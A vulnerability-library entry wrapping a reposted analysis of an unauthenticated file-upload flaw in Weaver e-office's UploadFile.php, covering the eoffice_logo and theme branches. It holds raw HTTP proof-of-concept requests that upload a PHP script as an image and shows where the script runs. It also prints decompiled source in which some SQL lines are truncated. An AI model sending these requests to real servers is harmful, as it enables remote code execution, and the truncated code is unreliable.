# 泛微e-office UploadFile.php eoffice_logo与theme两分支上传分析

## 条目说明

- 对象与具体问题：泛微e-office；UploadFile.php eoffice_logo与theme两分支上传分析
- 版本、配置及部署条件：版本作者明确未深究；更新safepack包含两分支修复
- 认证与权限前提：作者声称无需登录，样本cookie可能匿名会话
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- CNVD49104是起点logo漏洞；本文还分析theme独立分支，不应仅按ID整篇去重丢掉新路径
- 完整PHP源码与分支逻辑有价值，但UPDATE两句截断于WHERE PARA_，multipart字段全丢失
- move_uploaded_file只保证上传来源，不是安全内容校验；原注释检测文件是否合法容易误导
- 示例会修改LOGO/THEME_IMG数据库并可能删除旧主题文件，需标副作用
- 在线dezend上传代码服务为第三方源代码外传风险，只作历史方法不可默认使用

## 操作风险

请求可能删除/覆盖数据、修改账号或持久改变业务状态；文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行；在线解密或外部服务可能收到凭据及敏感内容。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/GhytldKOZxoatT4Iv4IzzQ)

广软 NSDA 安全团队推荐搜索关键词列表：代码审计漏洞复现漏洞分析

**文章初发布于先知社区**  

-----------------

**作者：ajie  
**

**引言**
------

**本文仅用于交流学习， 由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**  

**中华人民共和国网络安全法**  


**0x01 前言**
-----------

本来想着分析分析泛微 eoffice 最新出的漏洞 CNVD-2021-49104 的，分析分析着，发现代码好像有别的方法也存在这样的漏洞，未授权 getshell。一看补丁包，同步修复了这个漏洞。哎，食之无味弃之可惜，写一篇文章，安慰安慰自己。记录一下发现的时间。。。  


**0x02 环境搭建**
-------------

下载安装包安装即可。  


**0x03 漏洞复现**
-------------

1、无需登录，直接发包即可

```http
POST /general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId= HTTP/1.1
Host: 10.211.55.3:8082
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Length: 192
Origin: http://10.211.55.3:8082
Connection: close
Referer: http://10.211.55.3:8082/login.php
Cookie: LOGIN_LANG=cn; PHPSESSID=715b458eb0c0227c9d9e23b81222880b
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; 
Content-Type: image/jpeg

<?php phpinfo();?>

--e64bdf16c554bbc109cecef6451c26a4--
```

> 请求长度说明：原资料 Content-Length 为 192；保留原始标头；其数值未据实际请求体重新计算或验证。



2、成功后访问 http://10.211.55.3:8082/images/logo/logo-eoffice.php  
可以看到执行成功。  


**0x04 漏洞分析**
-------------

1、根据请求的路径  
/general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId=  
定位到文件：/webroot/general/index/**UploadFile.php**  

2、打开乱码问题，搜索一下发现是使用了 php zend 进行加密  
  
解密地址：http://dezend.qiling.org/free/  
上传加密文件，输入验证码便可以获取解密后的文件  
  
获取的解密代码如下：

```
<?php

class UploadFile
{
    private static $_instance = NULL;
    private function __construct()
{
    }
    private function __clone()
{
    }
    public static function getInstance()
{
        if (!self::$_instance instanceof self) {
            self::$_instance = new self();
        }
        return self::$_instance;
    }
    public function uploadPicture($connection)
{
        if (!empty($_FILES)) {
            $tempFile = $_FILES['Filedata']['tmp_name'];
            $uploadType = $_REQUEST['uploadType'];
            if ($uploadType == "login_logo") {
                $targetPath = $_SERVER['DOCUMENT_ROOT'] . "/images/logo/";
                if (!file_exists($targetPath)) {
                    mkdir($targetPath, 511, true);
                }
                $ext = $this->getFileExtension($_FILES['Filedata']['name']);
                if (!in_array(strtolower($ext), array(".jpg", ".jpeg", ".png", ".gif"))) {
                    echo 3;
                    exit;
                }
                $_targetFile = "logo-login" . $ext;
                $targetFile = str_replace("//", "/", $targetPath) . "/" . $_targetFile;
                if (move_uploaded_file($tempFile, $targetFile)) {
                    $query = "UPDATE login_form SET LOGO='{$_targetFile}'";
                    $result = exequery($connection, $query);
                    if ($result) {
                        echo $_targetFile;
                    } else {
                        echo 0;
                    }
                } else {
                    echo 0;
                }
            } else {
                if ($uploadType == "login_bg") {
                    $targetPath = $_SERVER['DOCUMENT_ROOT'] . "/images/login-bg/";
                    $thumbPath = $_SERVER['DOCUMENT_ROOT'] . "/images/login-bg/thumb/";
                    if (!file_exists($targetPath)) {
                        mkdir($targetPath, 511, true);
                    }
                    if (!file_exists($thumbPath)) {
                        mkdir($thumbPath, 511, true);
                    }
                    $thumbs = scandir($thumbPath);
                    if (12 < sizeof($thumbs)) {
                        echo 2;
                        exit;
                    }
                    $ext = $this->getFileExtension($_FILES['Filedata']['name']);
                    if (!in_array(strtolower($ext), array(".jpg", ".jpeg", ".png", ".gif"))) {
                        echo 3;
                        exit;
                    }
                    $_targetFile = "theme-" . time() . $ext;
                    $targetFile = str_replace("//", "/", $targetPath) . "/" . $_targetFile;
                    $thumbFile = str_replace("//", "/", $thumbPath) . "/" . $_targetFile;
                    if (move_uploaded_file($tempFile, $targetFile)) {
                        if ($this->createThumb($targetFile, $thumbFile, $ext)) {
                            $query = "UPDATE login_form SET THEME='{$_targetFile}',THEME_THUMB='{$_targetFile}'";
                            $result = exequery($connection, $query);
                            echo 1;
                        } else {
                            echo 4;
                        }
                    } else {
                        echo 0;
                    }
                } else {
                    if ($uploadType == "theme") {
                        $targetPath = $_SERVER['DOCUMENT_ROOT'] . "/images/themes/";
                        if (!file_exists($targetPath)) {
                            mkdir($targetPath, 511, true);
                        }
                        $userId = $_GET['userId'];
                        $sql = "SELECT * FROM user WHERE USER_ID='{$userId}'";
                        $result = exequery($connection, $sql);
                        if ($ROW = mysql_fetch_array($result)) {
                            $themeImage = $ROW['THEME_IMG'];
                        }
                        $ext = $this->getFileExtension($_FILES['Filedata']['name']);
                        $_targetFile = md5(time()) . $ext;
                        $targetFile = str_replace("//", "/", $targetPath) . "/" . $_targetFile;
                        $oldFile = str_replace("//", "/", $targetPath) . "/" . $themeImage;
                        if (move_uploaded_file($tempFile, $targetFile)) {
                            $sql = "UPDATE user SET THEME_IMG='{$_targetFile}' WHERE USER_ID='{$userId}'";
                            $result = exequery($connection, $sql);
                            if ($result) {
                                if (file_exists($oldFile)) {
                                    unlink($oldFile);
                                }
                                $size = getimagesize($targetFile);
                                $themeWidth = $size[0];
                                $themeHeight = $size[1];
                                if (491 < $themeWidth) {
                                    $themeWidth = 491;
                                    $themeHeight = intval($themeHeight * (490 / $size[0]));
                                }
                                echo json_encode(array("name" => $_targetFile, "width" => $themeWidth, "height" => $themeHeight));
                            } else {
                                if (file_exists($targetFile)) {
                                    unlink($targetFile);
                                }
                                echo false;
                            }
                        } else {
                            echo false;
                        }
                    } else {
                        if ($uploadType == "eoffice_logo") {
                            $targetPath = $_SERVER['DOCUMENT_ROOT'] . "/images/logo/";
                            if (!file_exists($targetPath)) {
                                mkdir($targetPath, 511, true);
                            }
                            $ext = $this->getFileExtension($_FILES['Filedata']['name']);
                            $_targetFile = "logo-eoffice" . $ext;
                            $targetFile = str_replace("//", "/", $targetPath) . "/" . $_targetFile;
                            if (move_uploaded_file($tempFile, $targetFile)) {
                                $query = "SELECT * FROM sys_para WHERE PARA_NAME = 'SYS_LOGO'";
                                $result = exequery($connection, $query);
                                $row = mysql_fetch_array($result);
                                $param1 = $param2 = false;
                                if (!$row) {
                                    $query = "INSERT INTO sys_para VALUES('SYS_LOGO','{$_targetFile}')";
                                    $param1 = exequery($connection, $query);
                                } else {
                                    $query = "UPDATE sys_para SET PARA_VALUE='{$_targetFile}' WHERE PARA_;
                                    $param1 = exequery($connection, $query);
                                }
                                $query = "SELECT * FROM sys_para WHERE PARA_NAME = 'SYS_LOGO_TYPE'";
                                $result = exequery($connection, $query);
                                $row = mysql_fetch_array($result);
                                if (!$row) {
                                    $query = "INSERT INTO sys_para VALUES('SYS_LOGO_TYPE','2')";
                                    $param2 = exequery($connection, $query);
                                } else {
                                    $query = "UPDATE sys_para SET PARA_VALUE='2' WHERE PARA_;
                                    $param2 = exequery($connection, $query);
                                }
                                if ($param1 && $param2) {
                                    echo $_targetFile;
                                } else {
                                    echo 0;
                                }
                            } else {
                                echo 0;
                            }
                        }
                    }
                }
            }
        }
    }
    public function getFileExtension($file)
{
        $pos = strrpos($file, ".");
        $ext = substr($file, $pos);
        return $ext;
    }
    public function createThumb($targetFile, $thumbFile, $ext)
{
        $dstW = 91;
        $dstH = 53;
        if (@imagecreatefromgif($targetFile)) {
            $src_image = imagecreatefromgif($targetFile);
        } else {
            if (@imagecreatefrompng($targetFile)) {
                $src_image = imagecreatefrompng($targetFile);
            } else {
                if (@imagecreatefromjpeg($targetFile)) {
                    $src_image = imagecreatefromjpeg($targetFile);
                }
            }
        }
        switch (strtolower($ext)) {
            case ".jpeg":
                $srcW = imagesx($src_image);
                $srcH = imagesy($src_image);
                $dst_image = imagecreatetruecolor($dstW, $dstH);
                imagecopyresized($dst_image, $src_image, 0, 0, 0, 0, $dstW, $dstH, $srcW, $srcH);
                return imagejpeg($dst_image, $thumbFile);
            case ".png":
                $srcW = imagesx($src_image);
                $srcH = imagesy($src_image);
                $dst_image = imagecreatetruecolor($dstW, $dstH);
                imagecopyresized($dst_image, $src_image, 0, 0, 0, 0, $dstW, $dstH, $srcW, $srcH);
                return imagepng($dst_image, $thumbFile);
            case ".jpg":
                $srcW = imagesx($src_image);
                $srcH = imagesy($src_image);
                $dst_image = imagecreatetruecolor($dstW, $dstH);
                imagecopyresized($dst_image, $src_image, 0, 0, 0, 0, $dstW, $dstH, $srcW, $srcH);
                return imagejpeg($dst_image, $thumbFile);
            case ".gif":
                $srcW = imagesx($src_image);
                $srcH = imagesy($src_image);
                $dst_image = imagecreatetruecolor($dstW, $dstH);
                imagecopyresized($dst_image, $src_image, 0, 0, 0, 0, $dstW, $dstH, $srcW, $srcH);
                return imagegif($dst_image, $thumbFile);
                break;
            default:
                break;
        }
    }
}
include_once "inc/conn.php";
$upload = UploadFile::getinstance();
$method = $_GET['m'];
$upload->{$method}($connection);
```

3、首先第 4-217 行属于类 UploadFile，这里可以先不看。从第 218 行开始执行代码，首先，定义类对象，对象执行 m 传入的方法。

```
include_once "inc/conn.php";
$upload = UploadFile::getinstance();
$method = $_GET['m'];
$upload->{$method}($connection);
```

```
m=uploadPicture&uploadType=eoffice_logo&userId=
```

```
if ($uploadType == "eoffice_logo") {
                            //定义上传路径
                            $targetPath = $_SERVER['DOCUMENT_ROOT'] . "/images/logo/";
                            //检测"/images/logo/"路径是否存在
                            if (!file_exists($targetPath)) {
                                mkdir($targetPath, 511, true);
                            }
                            //通过getFileExtension方法提取后缀
                            $ext = $this->getFileExtension($_FILES['Filedata']['name']);
                            //直接拼接后缀
                            $_targetFile = "logo-eoffice" . $ext;
                            //将"//"替换成"/"
                            $targetFile = str_replace("//", "/", $targetPath) . "/" . $_targetFile;
                            //调用move_uploaded_file方法,检测文件是否合法
                            if (move_uploaded_file($tempFile, $targetFile)) {
                                $query = "SELECT * FROM sys_para WHERE PARA_NAME = 'SYS_LOGO'";
                                $result = exequery($connection, $query);
                                $row = mysql_fetch_array($result);
                                $param1 = $param2 = false;
                                //如果文件不存在，使用insert插入文件
                                if (!$row) {
                                    $query = "INSERT INTO sys_para VALUES('SYS_LOGO','{$_targetFile}')";
                                    $param1 = exequery($connection, $query);
                                } else {
                                //如果文件存在，则使用update更新文件
                                    $query = "UPDATE sys_para SET PARA_VALUE='{$_targetFile}' WHERE PARA_;
                                    $param1 = exequery($connection, $query);
                                }
                                $query = "SELECT * FROM sys_para WHERE PARA_NAME = 'SYS_LOGO_TYPE'";
                                $result = exequery($connection, $query);
                                $row = mysql_fetch_array($result);
                                if (!$row) {
                                    $query = "INSERT INTO sys_para VALUES('SYS_LOGO_TYPE','2')";
                                    $param2 = exequery($connection, $query);
                                } else {
                                    $query = "UPDATE sys_para SET PARA_VALUE='2' WHERE PARA_;
                                    $param2 = exequery($connection, $query);
                                }
                                if ($param1 && $param2) {
                                    echo $_targetFile;
                                } else {
                                    echo 0;
                                }
                            } else {
                                echo 0;
                            }
                        }
```

定位到方法 uploadPicture  
  
5、首先检测 $_FILES 是否为空，不为空，进去条件分支语句。在第 23 行，看到了 uploadType，这里传入的是 eoffice_logo，定位到代码 122 行。（我会在代码注释中放上分析）  
  

```http
POST /general/index/UploadFile.php?m=uploadPicture&uploadType=theme&userId=1 HTTP/1.1
Host: 10.211.55.3:8082
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Length: 192
Origin: http://10.211.55.3:8082
Connection: close
Referer: http://10.211.55.3:8082/login.php
Cookie: LOGIN_LANG=cn; PHPSESSID=715b458eb0c0227c9d9e23b81222880b
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; 
Content-Type: image/jpeg

<?php phpinfo();?>

--e64bdf16c554bbc109cecef6451c26a4--
```

> 请求长度说明：原资料 Content-Length 为 192；保留原始标头；其数值未据实际请求体重新计算或验证。

可以看到检测路径、提取路径，提取后缀等  
  
后面直接执行了数据库语句进行文件的更新或插入操作。  
  
6、getFileExtension 方法在下面，其实就是以点来分割后缀。  
  
exequery 方法在 include_once 引用的 "inc/conn.php" 文件中，可以看到也没有进行过滤。  
  
7、回到原来的 UploadFile.php 文件，往下有个 createThumb 方法，可以看到这里是有进行后缀检测的  
